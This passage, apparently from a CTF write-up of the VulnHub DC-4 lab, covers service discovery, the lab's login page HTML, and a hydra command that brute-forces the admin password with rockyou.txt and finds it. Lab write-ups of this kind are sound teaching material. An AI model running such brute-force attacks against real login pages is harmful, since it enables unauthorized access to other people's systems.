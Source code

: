 We can see that two services running; `SSH` on Port 22 and `HTTP` on Port 80.

### HTTP
Visiting `192.168.2.104` greets us with a login panel.

![Login][Login]

Trying common credentials such as `admin`/`admin` or `admin`/`password` yields no result. As a result, we'll have to 
brute-force our login.

### Brute-forcing Login To The Panel
Checking the source code of the login page, we can see how our login credentials are handled.

```html
<!DOCTYPE html>
<html>
<head>
<title>System Tools</title>
<link rel="stylesheet" href="css/styles.css">
</head>
<body>
    <div class="container">
        <div class="inner">
            <h2>Admin Information Systems Login</h2>
            <form action="login.php" method="post">
                Username:

                <input type="text" name="username" value=""><p>
                Password:

                <input type="password" name="password" value=""><p>
                <input type="submit" value="Submit">
            </form>
        </div>
    </div>
</body>
</html>
```

With this info in mind, we'll use `hydra` to brute-force our login. Since we don't have any ideas on what the username 
might be, it's a safe bet to use `admin` as a starter. Do note that `rockyou.txt` was copied from 
`/usr/share/wordlists`.

```
$ hydra -l admin -P rockyou.txt 192.168.2.104 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
[80][http-post-form] host: 192.168.2.104   login: admin   password: happy
```

Our username choice was right and `hydra` found a password matching that `admin`; `happy`. Using these credentials in 
the login panel, we're now greeted with two options; `Command` and `Click to Logout`.


[DCAU]:                 https://twitter.com/DCAU7
[Login]:                /images/2019-09-13-vulnhub-dc_4/Login.png
[Admin Panel - 1]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%201.png
[Admin Panel - 2]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%202.png
[Admin Panel - 3]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%203.png
[Burp Suite - 1]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%201.png
[Burp Suite - 2]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%202.png
[Burp Suite - 3]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%203.png
[GTFOBin]:              https://gtfobins.github.io/gtfobins/tee/#sudo